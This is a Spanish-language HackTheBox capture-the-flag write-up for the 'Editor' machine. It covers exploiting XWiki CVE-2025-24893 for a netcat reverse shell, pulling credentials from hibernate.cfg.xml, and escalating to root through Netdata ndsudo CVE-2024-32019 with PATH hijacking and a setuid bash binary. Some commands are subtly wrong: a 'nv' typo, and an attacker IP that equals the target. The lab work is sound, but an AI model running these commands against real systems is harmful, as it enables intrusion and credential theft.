


# Editor

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.11.80

---

## 1. Información Inicial
- **Objetivo:** Obtener las dos banderas, una disponible desde un usuario y otra desde root  
- **Herramientas iniciales:** `nmap`, `GitHub`, `wget`, `netcat`, `python3`, `find`, `ssh`, `gcc`, `PATH`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios y puertos abiertos:
```bash 
nmap -sC -sV -p- --min-rate 2000 -T4 10.10.11.80
```


Al entrar en el sitio web, la url nos dirige a editor.htb, por lo que lo añadiremos al fichero /etc/hosts


Seguimos inspeccionando el sitio web en busca de alguna vulnerabilidad, y tan solo seleccionando en Docs, observamos que hay un servicio xwiki que quiere abrirse, pero para el cuál debemos de añadir también su dirección en el fichero /etc/hosts.


Cuando conseguimos entrar, no tenemos gran cosa pero apreciamos en la parte inferior la versión del servicio: `XWiki Debian 15.10.8`


Buscando en internet sobre esa versión, no tardamos en localizar un CVE que nos permita explotar la vulnerabilidad:
`CVE-2025-24893`


Tras analizar el código del exploit, podemos ejecutarlo según indica en su página oficial generando una conexión de netcat, por lo que debemos de tener en nuestra máquina una terminal con netcat escuchando en el puerto 9001.

```bash
nv -lvnp 9001
```

```bash
python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.11.80 9001 -e /bin/bash'
```


En la terminal donde estábamos escuchando con netcat, recibimos una shell como el usuario `xwiki`. Tras listar varios directorios y realizar bastantes pruebas, tan solo hemos descubierto que hay otro usuario llamado `oliver` que si que tiene directorio personal, por lo que dentro estará la bandera de usuario.


Comenzamos a buscar por internet a cerca del servicio XWiki pero no tenemos resultados hasta que encontramos un artículo que explica cómo configurar bases de datos MySQL. En el se muestra como hay credenciales en estos, por lo que probamos a acceder al archivo `WEB-INF/hibernate.cfg.xml` dentro del directorio de xwiki.


Efectivamente, hallamos una contraseña para el usuario xwiki pero no tenemos dónde iniciar sesión, por lo que tratamos de iniciar sesión con el usuario oliver y esa contraseña.

```bash
cat /etc/xwiki/hibernate.cfg.xml
```


La contraseña resulta ser útil con ese usuario y nos da acceso por ssh a la máquina víctima.

Desde este usuario sí que podemos visualizar la primera bandera del usuario (user.txt) en su directorio personal.

```bash
ssh oliver@10.10.11.80
```


Es hora de la escala de privilegios, para lo que buscaremos como siempre ficheros con permisos SUID.

Entre la lista de ficheros, destacan algunos plugins de Netdata. Cuando buscas a cerca de ellos, aparece el fichero ndsudo en concreto, con un CVE conocido como:
`CVE-2024–32019`.

```bash
find / -perm -4000 -type f 2>/dev/null 
```


Este CVE nos permite ejecutar un fichero compilado en C con el contenido que nosotros queramos modificando el PATH para que el sistema piense que es el original.
Podemos ver la explicación en la siguiente página:



Creamos un script sencillo que nos abra una bash como root, lo compilamos con gcc y abrimos un servidor Python para compartirlo y poder descargarlo desde la máquina local.

```bash
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```


```bash
gcc fichero.c -o nvme
python3 -m http.server
```



Por último, desde la máquina víctima solo hay que descargarse el fichero en /tmp, darle permisos de ejecución, modificar el PATH por /tmp para que al buscar el fichero nvme encuentre primero el modificado que el original y luego ejecutar algún comando que use ese fichero.

```bash
cd /tmp
wget http://10.10.11.80:8000/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```


Ya tenemos acceso al usuario root para poder obtener la segunda bandera en la ruta /root/root.txt.